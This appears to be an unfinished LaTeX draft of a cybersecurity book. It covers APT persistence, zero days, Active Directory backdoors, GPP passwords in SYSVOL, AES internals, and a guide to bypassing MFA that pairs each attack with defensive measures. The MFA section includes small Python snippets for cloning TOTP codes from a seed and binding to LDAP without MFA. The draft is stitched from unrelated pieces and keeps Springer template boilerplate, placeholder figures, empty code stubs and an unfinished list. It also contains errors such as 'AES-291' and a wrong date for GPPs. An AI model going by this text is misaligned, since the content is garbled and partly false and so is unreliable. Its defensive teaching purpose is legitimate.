1. Boot or Logon Autostart Execution: Attackers can configure malware to run automatically upon system startup or user login. This can be achieved by adding entries to the Windows Registry Run keys or by placing malicious files in the Windows Startup folder

2. Scheduled Tasks / Jobs: Attackers can leverage the operating system's Task Scheduler to execute malicious code at specific times or intervals, much like a logic bomb can. This allows them to automate recurring tasks, such as data exfiltration where a continuous cloaked S/FTP or SSH session needs to be an ongoing process, or attacker-mandated system monitoring, and maintaining persistence even after a defender reboots the compromised machine.

3. Web Shells: Attackers are notorious for uploading maliciously crafted web shells to compromised servers, providing them with remote access and ultimate control over the server. These web shells can be used to execute arbitrary commands, upload precarious files and attachments, and, of course, maintain persistence on the afflicted server.

4. Rootkits: Rootkits are a type of malware designed to hide their presence from the operating system and traditional security tools such as signature-based antivirus solutions. Rootkits can be used to maintain persistence by providing the attacker with stealthy access to compromised information systems.

5. Bootkits: Bootkits are also a type of malware that infects a computer's boot process, assisting the attacker with gaining control even before the operating system fully loads. This allows them to operate with high privileges, potentially disabling security measures and remaining hidden and persistent from standard antivirus software. Bootkits can modify, or cripple a computer's \textit{Master Boot Record (MBR)} or, in newer systems, the \textit{Unified Extensible Firmware Interface (UEFI)}, to corrupt or destroy the OS's boot process sequence, and provides a way for the attacker to execute malicious code in attempts to thwart the defender early in the computer's boot sequence (and I mean early in the boot sequence even before a defender has a chance to initially log on).

6. Backdoors: An attacker who specializes in authoring and creating new strains or reproducing variants of malware can code them to create backdoors in the operating system. Backdoors are generally software flaws or gaps that are considered secret entry or re-entry points (much like a regular door operates) and allows attackers to bypass and evade authentication mechanisms, and access the system directly. These backdoors can be used to maintain persistence and re-establish access even after the information system has been scrubbed free of any malicious remnants and deemed "clean."

7. Vulnerability Exploitation: Attackers can exploit software and hardware vulnerabilities to gain access to an information system and install persistence mechanisms. This can involve using and leveraging known vulnerabilities or developing custom exploits, such as \textit{zero day (0day)} exploits, to target specific information systems.

8. Lateral Movement: APTs often use lateral movement techniques to spread across the network, gaining access to other information systems and establishing persistence on multiple machines simultaneously. This can involve using stolen or hijacked credentials, exploiting vulnerabilities, or leveraging Remote Access Trojans / Remote Access Tools (RATs).

9. Insider Threats: Attackers may leverage human being as insider threats, such as compromised employees or disgruntled contractors, to gain initial access or maintain persistence. This can involve manipulating individuals into providing the attacker access or even by unknowingly assisting the attacker.

10. Social Engineering: APTs often leverage social engineering tactics, such as targeted spearphishing, to trick users into providing access or installing malware through the use of Trojan Horses. These attacks exploit human psychology to bypass security measures and establish a persistent presence.

\subsubsection{Characteristics of Advanced Persistent Threats}
Advanced Persistent Threat (APT) attacks are often targeted at a specific network resource or individual(s) and that are perpetrated by very capable and well-funded attackers hailing from government organizations to intelligence agencies, to dark web cybercartels. APT attacks employ various attack tools and techniques to ensure persistence and to maintain a continual presence in the breached environment. The purpose of these attacks is to place custom malicious code and to remain undetected for as long as possible thus enabling the attacker further reach into the network to deliver malicious software to their intended target information system.

\subsubsection{Understanding Application Threat Modeling}
Application threat modeling is the process where defenders identify, understand, and communicate potential threats to an application. Threat modeling is typically done during the design phase of an application's life cycle to ensure adequate protection measures are in place and implemented correctly to prevent application compromise.

\subsubsection{Identifying Zero Day Threats}
Unknown threats are the nightmares of defenders. These are the real risks. One such example is a zero day vulnerability-one that has been used in real-time attacks and one for which has no fix. In 2024 alone, 2,851 zero day vulnerabilities were identified in websites protected by AppTrana WAAP, and highlighted the urgency of understanding and addressing these risks in a proactive and timely manner.
    A zero day (0day) refers to a software vulnerability that is unknown to the software or security vendor and one for which the vendor has no available patch or remedial fix at the time of the vulnerability's discovery. Unlike known vulnerabilities, which administrators can patch with updates, zero day vulnerabilities are particularly dangerous because there are no existing fixes or defenses that exist to address the issue. This lack of awareness and available fix makes it a critical security threat, as attackers can exploit the vulnerability before a defense can be implemented. The term "zero day" signifies the vendor has had zero days to address the issue, and have had zero days to prepare for an attack once the vulnerability has been discovered. These vulnerabilities often originate during software development (mostly unintentional, and more of an oversight on the developer's part) and are due to coding errors or design flaws; however, they can also arise from reverse engineering, where attackers dissect software vectors to uncover their weaknesses. Other avenues for zero day vulnerabilities include, but are not limited to:

\begin{itemize}
    \item \textbf{Vulnerability:} Software, whether it is an operating system, application, or hardware, can contain flaws or weaknesses that can be exploited by malicious actors.
    \item \textbf{Zero Day Discovery:} These vulnerabilities are often discovered by an array of individuals including security researchers, attackers, script kiddies, security hobbyists, and practitioners.
    \item \textbf{No Patch Available:} The key characteristic of a zero day is that the software or security vendor has not yet been informed of the vulnerability's existence or has not yet created a fix or patch to address the security flaw.
    \item \textbf{Attack Exploitation:} Attackers exploit these vulnerabilities to gain unauthorized access to information systems, steal sensitive information, or simply to disrupt operations.
\end{itemize}

\subsubsection{Zero Day Vulnerability vs. Zero Day Exploit vs. Zero Day Attack}
A zero day (0day) refers to the number of days since a vulnerability has been discovered, patched, or publicly disclosed.
    When paired with terms like "vulnerability," "exploit," and "attack," it provides a clearer understanding of the context and its implications:

\begin{itemize}
    \item Zero-Day Vulnerability: Refers to a flaw that has been discovered in vulnerable software or hardware and that is unknown to the vendor and remains unpatched and unresolved. Attackers leverage these exploits before developers or security vendors have had a decent amount of time to research them and provide to the public a fix for the identified flaw. Zero days are particularly dangerous because if there is no defensive mechanism in place to keep the attacker out, what else is there? That's free entry for an attacker.
    \item Zero Day Exploit: Software or code that leverages a vulnerability for malicious purposes. A zero day exploit targets a zero day vulnerability, allowing attackers to compromise systems, steal data, or cause harm before a patch is made available.
    \item Zero Day Attack: This term describes exploiting a zero day vulnerability using a zero day exploit. It highlights the proactive nature of the attackers who leverage unknown vulnerabilities to launch surprise attacks, often with devastating consequences.
\end{itemize}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{image.png}
    \caption{Enter Caption}
    \label{fig:image-placeholder}
\end{figure}
    

\section{Context and Motivation}

% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head
In real-world enterprise AD environments, security teams - including systems administrators, incident responders, penetration testers, ethical hackers, and auditors - face a common challenge: ensuring the confidentiality, integrity, and availability of Active Directory in the face of growing complexity and increasingly advanced threat actors. AD is not only large, but also dynamic; users and permissions change constantly, and many of the risks lie in subtle or long-standing configurations rather than in overt malware or intrusions.

Defenders and security professionals must often sift through thousands of users, groups, and permissions, looking for signs of privilege abuse, security control tampering, inappropriate delegations, or dormant attack vectors, such as forgotten active user accounts that should have been disabled or deleted the moment the user was escorted off-premises. In many organizations, this work is often done manually, using a mix of graphical tools and ad hoc scripts. Unfortunately, this approach is not scalable and, sometimes, not feasible. It is slow, time-consuming, error-prone, and difficult to reproduce - particularly when trying to compare the state of AD over time for security baselining purposes or during an incident response investigation.

BTA was developed to bridge this gap. It automates deep inspection of AD data extracted from Domain Controllers, providing consistent outputs and facilitating offline analysis. Its goal is to simplify the process of identifying common AD abuses and to empower defenders to spot persistent misconfigurations before attackers do.

Among the key use cases addressed by BTA are:
    
\section{Understanding the Threat: Threat Hunting Backdoors}

To understand how attackers can abuse AD, we examine two realistic and commonly exploited backdoor mechanisms: manipulation of the Domain Admins group and the misuse of the AdminSDHolder
 object. These examples are not hypothetical - they are based on real-world abuse patterns observed during red team exercises and post-compromise investigations.

\section{Backdoor 1: Domain Admin Group Manipulation}

The Domain Admins group is one of the most powerful entities in an Active Directory domain. Its members effectively have full domain control over domain-wide resources. As such, it is a critical group that needs continuous monitoring, should be tightly and strictly administered and maintained and rarely changed. Yet attackers often target it directly or indirectly to establish initial access and persistence.

One popular technique involves obtaining the ability to \textbf{add or remove members} from the group. This does not always require being a Domain Admin initially. An attacker who compromises an account with GenericAll access to the Domain Admins group object can silently add another user, service account, or even a malicious script to the group without being noticed by traditional security tools and detection mechanisms.

In some instances, attackers don't just add users - they embed (and sometimes hard-code) permissions that allow them to re-add accounts later, even after an administrator believes they have removed the threat completely. These changes may be hidden within nested groups or disguised through indirect delegation.

These subtle forms of access manipulation are difficult to detect manually. The key challenge lies in identifying \textbf{who has effective control over the group} - not just who appears as a member. That requires a full audit of the group's security descriptor, including inherited and delegated permissions, and a recursive understanding of group nesting in Active Directory.
Please note that the first line of text that follows a heading is not indented, whereas the first lines of all subsequent paragraphs are.

%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Attacker Privilege Escalation to Domain Administrator in Active Directory}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}


\section{Attacker Privilege Escalation to Domain Administrator in Active Directory}

\subsection{Section 1: Domain Admin Breach}
An attacker’s acquisition of Domain Administrator privileges within an Active Directory (AD) environment represents a critical objective for Advanced Persistent Threats (APTs) and sophisticated nation-state adversaries. This section delineates prevalent methodologies employed to achieve privilege escalation, operating under the \textit{\textbf{assumption of breach}}, wherein the attacker has already established a toehold on an internal system and compromised some domain user or service account via some post-exploitation method.

A stark reality for many enterprise security postures is the often-expedited timeline from initial domain user compromise to full Domain Administrator control. This rapid escalation frequently prompts the critical defensive inquiry: \textit{“How does this occur?”}

The typical attack lifecycle often initiates with targeted reconnaissance, such as targeted spearphishing campaigns or exploitation of vulnerabilities in public-facing web applications, enabling initial arbitrary code executions within the targeted network perimeter. Upon establishing this initial presence, the immediate subsequent phase involves extensive passive or active internal reconnaissance. This recon aims to identify critical assets, discover vulnerabilities and weak entry points into the core network, and mapping or blueprinting of network topology to facilitate the attacker’s efforts for achieving privilege escalation, establishing long-term persistence, and ultimately enabling data exfiltration, often targeting an organization’s most sensitive information assets, or \textit{“crown jewels.”}

While the granular execution details may vary, the overarching progression of such an attack adheres to a consistent thematic flow:

\textbf{1. Initial Access (Malware Injection): }This often involves attack vectors such as spearphishing, impersonation, web exploits, or supply chain compromise.

\textbf{2. Internal Reconnaissance: }Post-compromise, an attacker’s next step after recon is to enumerate network resources, user accounts, group memberships, and potential misconfigurations.

\textbf{3. Credential Theft: }Harvesting of credentials through various cracking techniques, including memory scraping, hash dumping, or keylogging.

\textbf{4. Exploitation and Privilege Escalation: }Leveraging identified vulnerabilities or misconfigurations to elevate access rights, culminating in Domain Admin account breach and compromise.

\textbf{5. Data Access and Exfiltration: }Accessing and extracting targeted sensitive information.

\textbf{6. Persistence: }Establishing mechanisms to maintain long-term access to the compromised environment, even after system reboots, system reimages, or credential changes.

This section commences with the attacker having successfully achieved an internal system toehold, recognizing that this initial breach is often less challenging in contemporary, complex network infrastructures, such as ICS/SCADA networks and critical infrastructure. Furthermore, escalating privileges from a standard workstation user to a \textbf{local administrator} is frequently a straightforward process. This local privilege escalation can manifest through the exploitation of unpatched operating system vulnerabilities or, more commonly, by discovering cached administrative credentials within \textit{Group Policy Preferences (GPPs)} stored in the \texttt{SYSVOL} share.

\subsection{\textbf{1. Passwords in SYSVOL \& Group Policy Preferences (GPPs)}}
This attack vector represents one of the most straightforward methods for an attacker to escalate their privileges within an Active Directory (AD) environment, and often one that requires minimal specialized tooling to accomplish. This attack capitalizes on a historical vulnerability and common misconfigurations within ADs \textit{Group Policy Objects (GPOs).}

\subsubsection{\textbf{Understanding the Vulnerability}}
The \texttt{SYSVOL} share is a domain-wide \textit{Distributed File System (DFS) }share within Active Directory, critical for domain operations. It hosts essential data such as logon scripts, Group Policy data, and other domain-wide information that requires replication across all Domain Controllers (DCs). Crucially, all authenticated users within the domain possess \textbf{read access} to the \texttt{SYSVOL} share, located at \texttt{<DOMAIN>\textbackslash{}SYSVOL\textbackslash{}<DOMAIN>\textbackslash{}Policies\textbackslash{}}.

Prior to 2012, when Group Policy Preferences (GPPs) were introduced, Microsoft implemented a feature allowing administrators to embed credentials (e.g., for creating local users, scheduling tasks, or configuring services) directly within GPP XML files. These passwords were encrypted using \textbf{AES-256}; however, a severe oversight occurred: Microsoft publicly released the \textbf{AES encryption key (shared secret)} on MSDN.

Consequently, any authenticated domain user can enumerate the \texttt{SYSVOL} share, specifically searching for XML files associated with GPPs. The most commonly targeted files include:

\begin{itemize}
    \item \texttt{groups.xml} (for Local Users and Groups GPPs)
    \item \texttt{scheduledtasks.xml} (for Scheduled Tasks GPPs)
    \item \texttt{services.xml} (for Services GPPs)
\end{itemize}

These XML files often contain a field named \textbf{“\texttt{cpassword},”} which holds the AES-256 encrypted password.

\textbf{Important to Note:}
\textbf{AES-256} refers to the \textit{\textbf{Advanced Encryption Standard (AES)}} algorithm using a \textbf{256-bit key length. }It is a highly secure and widely adopted \textit{\textbf{symmetric block cipher}} used globally, including the United States Federal Government, for protecting sensitive digital data at rest or in transit.

\subsection{\textbf{What Is AES?}}

AES is a \textit{symmetric block cipher}, meaning it uses the \textit{same secret key} for both encrypting plaintext (human-readable data) into ciphertext (encrypted, machine-readable data, binary, \texttt{1s} and \texttt{0s}), and decrypting ciphertext back into plaintext. It operates on fixed-size blocks of data, specifically \textbf{128-bit blocks} (16 bytes), regardless of the key size.

The algorithm was established by the U.S. National Institute of Standards and Technology (NIST) in 2001, replacing the older \textit{Data Encryption Standard (DES)} due to DESs shorter key length and susceptibility to brute-force attacks.

\subsubsection{\textbf{Why 256?}}
The “256” in AES-256 indicates the \textbf{length of the cryptographic key} used in the encryption and decryption process. AES supports three primary key lengths: 128-bit, 192-bit, and 256-bit. A longer key length directly translates to a significantly higher number of possible keys, making brute-force attacks (trying to guess and use every possible key until the correct one is found) exponentially more difficult.

For AES-256, there are 2\textsuperscript{256} possible combinations for the key. To put this into perspective, cracking AES-256 through brute-force with current computing technology is considered computationally infeasible, even for the most powerful supercomputers, taking billions of years, literally. It’s often referred to as “military-grade” encryption because it is approved by the U.S. government for securing classified information, including data up to the "\texttt{TOP SECRET"} level.

\subsection{\textbf{How AES-256 Works}}

The AES algorithm operates through a series of complex mathematical transformations performed over multiple \textbf{rounds. }The number of rounds depends on the key length:

\begin{itemize}
    \item \textbf{\textbf{AES-128: }10 rounds}
    \item \textbf{\textbf{AES-291: }12 rounds}
    \item \textbf{\textbf{AES-256: 14 rounds}}
\end{itemize}

Each round consists of a sequence of four fundamental operations applied to the 128-bit data block, represented as a 4 x 4 matrix of bytes:

\textbf{1. \texttt{SubBytes} (Byte Substitution): }Each byte in the data block is replaced with another byte using a predefined substitution box (S-box). This introduces \textbf{non-linearity, }a crucial property for cryptographic strength.

\textbf{2. ShiftRows (Row Shifting): }The rows of the data matrix are cyclically shifted to the left by different offsets. This step provides \textbf{diffusion} by spreading the byte values across the entire block.

\textbf{3. MixColumns (Column Mixing): }A mathematical operation (matrix multiplication) is performed on each column of the data matrix, further scrambling the data and enhancing diffusion. This step is skipped in the final round.

\textbf{4. AddRoundKey (Key Mixing): }A \textbf{round key}, derived from the original 256-bit secret key through a process called \textit{\textbf{key expansion}} is combined with the current data block using a bitwise XOR operation. This step directly integrates the secret key material into the encryption process.

These operations are performed repeatedly for the specified number of rounds. The final round omits the MixColumns step and concludes with an AddRoundKey operation, producing the final ciphertext.

\subsubsection{\textbf{Key Features \& Applications}}

\begin{itemize}
    \item \textbf{\textbf{Symmetric Key Algorithm: }Uses the same key for encryption and decryption (goes both ways). This makes it efficient for encrypting large volumes of data.}
    \item \textbf{\textbf{Block Cipher: }Processes data in fixed-sized blocks of 128-bits.}
    \item \textbf{\textbf{High Security: }Considered virtually unbreakable by brute-force attacks with current technology, offering durable protection against unauthorized access.}
    \item \textbf{\textbf{Substitution-Permutation Network (SPN): }The underlying structure of the algorithm, involving alternating layers of substitutions and permutations to create strong cryptographic mixing.}
    \item \textbf{\textbf{Widely Adopted: }AES-256 is the standard for securing data in various applications, including:}
\end{itemize}

\begin{itemize}
    \item \textbf{\textbf{Data at Rest (DAR): }Full Disk Encryption (FDE) (e.g., BitLocker, FileVault) and database encryption.}
    \item \textbf{\textbf{Data in Transit (DIT): }Secure communication protocols like TLS/SSL (HTTPS), VPNs, and wireless security (WPA2/3).}
    \item \textbf{\textbf{File Encryption: }For sensitive documents and archives.}
\end{itemize}

While AES-256 is highly secure, its effectiveness ultimately depends on proper implementation and the \textbf{secrecy of the key. }A strong algorithm cannot compensate for weak key management practices.

\textbf{Mitigation}

Mitigating the risk of attackers leveraging exposed credentials within SYSVOL and Group Policy Preferences (GPPs) is crucial for preventing
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\linewidth]{image.png}
    \caption{Enter Caption}
    \label{fig:image}
\end{figure}


%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Chapter Heading}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear\textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template\texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}

\abstract{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter. \newline\indent
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}

\section{Section Heading}
%\label{sec:1}
Use the template \emph{chapter.tex} together with the document class SVMono (monograph-type books) or SVMult (edited books) to style the various elements of your chapter content conformable to the Springer Nature layout.

\section{Section Heading}
%\label{sec:2}
% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head
Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Furtheron please use the \LaTeX\ automatism for all your cross-references and citations.



\abstract{Summarize Chapter Title}

\section{Attacker Privilege Escalation to Domain Administrator in Active Directory}

Advanced Techniques to Bypass Multi-Factor Authentication (MFA) Systems

Bypassing MFA is a critical subject for both offensive operators simulating real-world threats and defenders aiming to harden their authentication workflows. This technical guide explores modern MFA bypass methods with code examples and defensive recommendations.

1. Session Token Replay and Theft

Attack Overview:
Once a user completes MFA, the server issues a session token (e.g., cookie or JWT). If stolen, this token can be reused to impersonate the user without reauthentication.
(Python):
import requests 


Defensive Measures:
Issue short-lived tokens
Defensive measures in cybersecurity are critical to protect user data and prevent attacks. One effective step is issuing short-lived tokens. These tokens act as digital keys that grant access to services or information. Making them valid only for a brief period limits the damage if a token is stolen. Attackers can’t use stolen tokens for long, reducing their chance of success. This approach forces hackers to act quickly and discourages prolonged attacks.

Use HttpOnly, Secure, and SameSite=strict cookie flags
Another important technique is setting strict cookie flags. Cookies are small data files stored on a user’s device. Marking cookies as \texttt{HttpOnly} prevents scripts from accessing them. This blocks common hacking methods like cross-site scripting, which aim to steal cookie data. Using Secure flags ensure that cookies transfer only over encrypted connections, such as HTTPS. The \texttt{SameSite=strict flag} adds an extra layer by restricting cookie sharing across different sites, making it harder for malicious actors to hijack sessions. Combining these flags helps ensure cookies are used only in trusted contexts, strengthening overall security.

Tie tokens to IP and device attributes
Tying tokens to IP addresses and device attributes is another key measure. When a user logs in, the system associates the token with their IP address and device details. If someone tries to hijack the session from a different IP or device later, the system can detect the mismatch. This makes it much harder for attackers to use stolen tokens without being noticed. It adds an extra barrier that requires hackers to mimic the original device setup, which is often more difficult.


Enable real-time session monitoring and anomaly detection


2. Phishing Proxies

Attack Overview:
Proxy-based phishing tools such as Evilginx transparently relay user input to the legitimate site while intercepting credentials and 2FA tokens.

Example Tools: Evilginx2, Modlishka

Defensive Measures:
Implement phishing-resistant MFA (FIDO2/WebAuthn)
Educate users on identifying spoofed domains
Enforce domain-bound cryptographic operations
Enable TLS pinning and enforce HSTS


3. Push Notification Fatigue

Attack Overview:
Attackers abuse push-based MFA by sending repeated prompts, hoping users approve out of habit or annoyance.

Example Logic (Pseudo):
while not authorized:


Defensive Measures:
Limit push retry frequency
Display transaction context (e.g., geo-location, request source)
Train users to recognize and report unauthorized MFA prompts

\subsection{4. TOTP Seed Extraction
}

Attack Overview:
An attacker who extracts the TOTP seed from a compromised server or system can generate valid one-time codes indefinitely.

Code Example \begin{lstlisting}[language=Python]
import pyotp

seed = "JBSWY3DPEHPK3PXP"
totp = pyotp.TOTP(seed)
print("Current OTP:", totp.now())
\end{lstlisting}


Defensive Measures:
Store TOTP seeds in HSMs or encrypted vaults
Enforce role-based access control and auditing
Prefer passwordless or asymmetric MFA options

5. SIM Swapping

Attack Overview:
Attackers trick mobile carriers into transferring a victim's phone number to their own SIM, intercepting SMS-based codes.

Defensive Measures:
Avoid SMS-based MFA
Set PINs on carrier accounts
Detect changes in mobile number and device fingerprints
Use authenticator apps or hardware keys


6. Phishing Real-Time MFA Codes

\subsubsection{Attack Overview}
Sophisticated phishing attacks gather credentials and real-time TOTP codes from victims via spoofed login pages.

\subsection{Code Logic}
\begin{lstlisting}
import pyotp
session = requests.Session()
login = session.post(login_url, data={"user": user, "pass": pwd})
session.post(otp_url, data={"otp": real_time_code})
\end{lstlisting}

\subsubsection{Defensive Measures}
Adopt phishing-resistant authentication
Monitor for known phishing domains
Integrate domain-bound authenticators (e.g., WebAuth)
\subsection{7. Middleware Bypass via Internal Auth Paths}
\subsubsection{Attack Overview}
 Some systems may rely on unprotected backend services (e.g., LDAP, AD) where MFA is not enforced.

\subsubsection{Code Example}
\begin{lstlisting}
import pyotp
from ldap3 import Server, Connection, ALL   
\end{lstlisting}    

\begin{lstlisting}
server = Server("ad.internal.local", get_info=ALL)
conn = Connection(server, user="admin", password="password123")
if conn.bind():
    print("Bound to LDAP without MFA")    
\end{lstlisting}

\subsection{Defensive Measures}
Enforce MFA at application gateways
Apply conditional access controls
Audit internal authentication workflows


8. Fake Authentication Interfaces

Attack Overview:
Users are directed to a rogue web page mimicking an MFA prompt. Entered information is collected but not verified by the legitimate service.

Defensive Measures:
Limit exposure of public login endpoints
Deploy site-wide anti-phishing indicators
Leverage trusted execution environments for MFA prompt validation


9. Man-in-the-Endpoint Exploits

Attack Overview:
If attackers gain control of the endpoint device, they can piggyback on authenticated sessions or steal valid tokens directly.

Defensive Measures:
Enforce endpoint posture checks
Utilize full-disk encryption and secure boot
Deploy EDR tools and behavioral analytics


10. Duplicate Code Generators (Seed Duplication)

Attack Overview:
By obtaining seed values, attackers clone code generation logic and impersonate users.

Code Example (Using pyotp and known seed):
import pyotp
totp = pyotp.TOTP("MZXW6YTBOI======")
print("Cloned OTP:", totp.now())

Defensive Measures:
Prevent seed leakage during setup
Validate device uniqueness
Use asymmetric cryptographic devices (FIDO2)



Summary Table
Method
Technique
Defense Strategy
Token Replay
Reuse captured session token
Short TTL, IP binding, revocation
Proxy Phishing
MITM with phishing proxy
FIDO2, TLS pinning, HSTS
Push Fatigue
Overload approval requests
Limit retries, user training
TOTP Extraction
Seed stolen from system
Encrypted storage, rotate secrets
SIM Swapping
Carrier number theft
Avoid SMS, use app-based or hardware MFA
MFA Phishing
Real-time OTP harvesting
Domain-bound cryptography, detection systems
Internal Bypass
Weak backend auth
Enforce gateway MFA, audit control paths
Fake Prompts
HTML/CSS look-alike phishing
Browser hardening, liveness checks
Compromised Endpoints
Local session hijacking
EDR, device health verification
Seed Cloning
Duplicate TOTP generation
HSMs, seed uniqueness, OTP expiry enforcement

While MFA significantly strengthens access control, it is not invulnerable. A well-informed attacker with knowledge of implementation weaknesses can circumvent MFA using a range of sophisticated techniques. To defend effectively, organizations must understand these threats in depth, enforce layered protections, and continuously test their authentication defenses.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\linewidth]{image.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}


%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Information Security: Cybersecurity Frameworks, Laws, Rules, and Regulations}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}



\abstract{It goes without saying that the world of cybersecurity is indeed a complex one. To add to the burden, it is no wonder why today's organizations continue to struggle to keep up strong security postures in conjunction with already established complex compliance needs, regulations, and mandates. Within this context, this chapter conducts an in-depth analysis of the role of the NIST SP 800 series in developing standard methodologies of employing ethical hacking and penetration testing, focusing in particular on SP 800-115s formal framework of technical security testing and assessment. Based on an assessment of methodologies of implementation and compliance needs, readers will have a thorough knowledge of how guidelines from NIST convert security testing from discrete exercises into blended components of an organizational security strategy.}
  

Areas of focus include:
\textbf{1. Framework Implementation and Technical Methodology}
\begin{itemize}
    \item In-depth analysis of SP 800-115s five-phase testing methodology
    \item Strategies to integrate automated and manual testing methods
    \item Implementation considerations for various organizational contexts
    \item Procedures and documentation requirements for technical verification
\end{itemize}
\textbf{2. Alignment with Regulations and Compliance}
\begin{itemize}
    \item Mapping across security frameworks to major compliance standards
    \item Audit preparation documentation requirements
    \item Integration of risk assessment into existing security control posture
    \item Continuous monitoring and maintenance procedures
\end{itemize}
\textbf{3. Technical Testing Procedures}
\begin{itemize}
    \item Methods and tools of vulnerability scanning
    \item Penetration testing techniques and limitations
    \item Protocol assessment procedures
    \item Remediation techniques and post-testing activities
\end{itemize}
\textbf{4. Organizational Integration}
\begin{itemize}
    \item Software Development Life Cycle (SDLC) incorporation strategies
    \item Cross-functional and cross-domain team collaboration models
    \item Risk visibility frameworks
    \item Stakeholder communication procedures
\end{itemize}
